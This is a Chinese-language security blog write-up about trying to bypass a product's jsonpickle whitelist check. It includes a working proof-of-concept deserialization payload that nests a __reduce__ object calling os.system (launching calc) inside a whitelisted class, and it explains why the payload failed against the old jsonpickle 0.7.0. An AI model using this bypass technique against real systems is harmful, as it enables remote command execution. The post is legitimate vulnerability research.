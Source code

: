```yaml
---
title: 一次失败的jsonpickle反序列化漏洞利用
date: 2022-01-18 16:56:07
tags:
  - Python
  - 反序列化
  - pickle
categories: 漏洞分析
---
```


一次失败的jsonpickle反序列化漏洞利用，记录一下。
<!-- more -->

# 0x00 产品的白名单校验逻辑

最近测试一个产品，发现产品在解析http请求中的message时，使用了jsonpickle库。大致的代码如下：

```python
def json_decode(string):
    json_validate(string)
    return jsonpickle.decode(string)
```

```python
JSON_PICKLE_WHITE_LIST = [
    "xx.yy.A",
    "xx.yy.B"
]


def json_validate(raw_string):
    """jsonpickle.decode数据做白名单校验"""
    raw_data = json.loads(raw_string)
    if not raw_data:
        return
    if isinstance(raw_data, list):
        for item in raw_data:
            class_name = item.get("py/object")
            if class_name not in JSON_PICKLE_WHITE_LIST:
                raise ValueError("%s is invalid for jsonpickle" % class_name)
    elif isinstance(raw_data, dict):
        class_name = raw_data.get("py/object")
        if class_name not in JSON_PICKLE_WHITE_LIST:
            raise ValueError("%s is invalid for jsonpickle" % class_name)
    else:
        raise ValueError("%s is invalid type for jsonpickle" % type(raw_data))
```

可以看到在使用jsonpickle解析前，有一个白名单校验逻辑，校验需要创建的对象是否在白名单内。

第一眼看到，就觉得有问题。校验时识别到"py/object"这个tag，会校验值是否为白名单里的类。如果触发反序列化漏洞的点为白名单类的一个属性呢？好像就可以直接绕过白名单校验逻辑。

# 0x01 本地尝试绕过

首先在本地尝试绕过，将产品的json解析代码在本地实现了。

- Step 1：构造Exp类

跟pickle反序列化的利用思路一样，利用的是\_\_reduce\_\_这个魔法函数，Exp类如下：

```python
class Exp:

    def __reduce__(self):
        return os.system, ("calc",)
```

- Step 2：然后创建白名单类（A）的对象，并将Exp对象赋值给A的成员变量d：

```python
a = A("test")
a.d = Exp()
print(jsonpickle.encode(a))
```

编码后结果如下：

```json
{"py/object": "xx.yy.A", "u": null, "l": {}, "d": {"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["calc"]}]}}
```

- Step 3：使用该Poc进行解析操作

```python
poc = '{"py/object": "xx.yy.A", "u": null, "l": {}, "d": {"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["calc"]}]}}'
json_decode(poc)
```

成功弹出计算器

# 0x02 现网利用

于是拿着修改后的payload兴冲冲地去现网进行验证，发现在现网尝试利用后毫无反应。WTF！

对产品的代码进行了进一步调试，终于发现了原因。原来产品用的是jsonpickle老版本0.7.0。在这个版本里，还没有支持"py/reduce"这个tag，导致无法触发函数的执行。

在0.7.0这个版本里，仅支持以下的tag：

```python
# jsonpickle 0.7.0
# file path: tags.py
from jsonpickle.compat import set

ID = 'py/id'
OBJECT = 'py/object'
TYPE = 'py/type'
REPR = 'py/repr'
REF = 'py/ref'
TUPLE = 'py/tuple'
SET = 'py/set'
SEQ = 'py/seq'
STATE = 'py/state'
JSON_KEY = 'json://'

# All reserved tag names
RESERVED = set([OBJECT, TYPE, REPR, REF, TUPLE, SET, SEQ, STATE])
```

```python
# jsonpickle 0.7.0
# file path: unpickler.py
class Unpickler(object):
    
    ...
    
    def _restore(self, obj):
        if has_tag(obj, tags.ID):
            restore = self._restore_id
        elif has_tag(obj, tags.REF): # Backwards compatibility
            restore = self._restore_ref
        elif has_tag(obj, tags.TYPE):
            restore = self._restore_type
        elif has_tag(obj, tags.REPR): # Backwards compatibility
            restore = self._restore_repr
        elif has_tag(obj, tags.OBJECT):
            restore = self._restore_object
        elif util.is_list(obj):
            restore = self._restore_list
        elif has_tag(obj, tags.TUPLE):
            restore = self._restore_tuple
        elif has_tag(obj, tags.SET):
            restore = self._restore_set
        elif util.is_dictionary(obj):
            restore = self._restore_dict
        else:
            restore = lambda x: x
        return restore(obj)
```

# 0x03 感想

搞了一个下午，白白兴奋了一下。第一次发现开源软件不升级版本，有的时候竟然还是一件好事情。。。

从代码来看，当前可以通过"py/object"去创建一个对象，可以通过"py/type"去加载一个模块。后续看看产品对反序列化结果是如何使用的，因为对象的属性是可以控制的，如果使用不当（例如拼接到命令里），还是可以进一步利用的。
